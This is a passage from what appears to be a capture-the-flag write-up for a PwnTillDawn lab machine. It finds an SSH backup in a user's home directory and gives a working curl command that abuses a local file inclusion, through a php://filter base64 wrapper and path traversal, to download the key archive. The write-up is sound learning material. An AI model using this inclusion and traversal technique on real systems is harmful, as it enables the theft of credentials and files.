 The previous users mentioned can also be found here.

![11](/assets/img/post/pwntilldawn_silence/11.png)

One of the users, `sally`, has a backup folder containing SSH information, keys maybe?

![12](/assets/img/post/pwntilldawn_silence/12.png)

Also, one of the flags can be found inside of `john`'s home directory. Unfortunately this browser doesn't allow reading, so we can't access the flag through here.  



## Too Many Keys

Let's use the same PHP filter trick to download the SSH file from sally. 

```
$ curl http://10.150.150.55/trick.php?page=php://filter/convert.base64-encode/resource=../../../home/sally/backup/SSHArchiveBackup.tar.gz | base64 -d | tee SSHArchiveBackup.tar.gz
--- SNIP ---
$ tar -xvf SSHArchiveBackup.tar.gz
```
